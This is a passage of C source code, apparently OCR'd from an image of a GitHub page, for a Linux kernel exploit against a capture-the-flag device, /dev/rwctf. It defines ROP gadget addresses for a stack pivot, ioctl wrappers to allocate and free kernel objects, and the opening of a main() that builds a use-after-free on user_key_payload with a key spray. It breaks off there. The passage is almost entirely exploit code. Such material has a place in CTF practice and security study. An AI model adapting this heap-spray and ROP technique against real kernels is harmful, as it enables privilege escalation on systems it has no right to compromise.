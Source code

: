 ```c
#define PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250c9d
#define POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250ca4
#define POP_RDI_RET 0xffffffff8106ab4d
#define XCHG_RDI_RAX_DEC_STH_RET 0xffffffff81adfc70

int dev_fd;

struct node {
    uint32_t idx;
    uint32_t size;
    void *buf;
};

/**
 * @brief allocate an object bby kmalloc(size, __GFP_ZERO | GFP_KERNEL )
 * __GFP_RECLAIM = __GFP_KSWAPD_RECLAIM | __GFP_DIRECT_RECLAIM 
 * GFP_KERNEL = __GFP_RECLAIM | __GFP_IO | __GFP_FS
 * 
 * @param idx 
 * @param size 
 * @param buf 
 */
void alloc(uint32_t idx, uint32_t size, void *buf)
{
    struct node n = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(dev_fd, 0xDEADBEEF, &n);
}

void del(uint32_t idx)
{
    struct node n = {
        .idx = idx,
    };

    ioctl(dev_fd, 0xC0DECAFE, &n);
}

int main(int argc, char **argv, char **envp)
{
    size_t *buf, pipe_buffer_addr;
    int key_id[KEY_SPRAY_NUM], victim_key_idx = -1, pipe_key_id;
    char desciption[0x100];
    int pipe_fd[2];
    int retval;

    /* fundamental works */
    bindCore(0);
    saveStatus();

    buf = malloc(sizeof(size_t) * 0x4000);

    dev_fd = open("/dev/rwctf", O_RDONLY);
    if (dev_fd < 0) {
        errExit("FAILED to open the /dev/rwctf file!");
    }

    /* construct UAF on user_key_payload */
    puts("[*] construct UAF obj and spray keys...");
```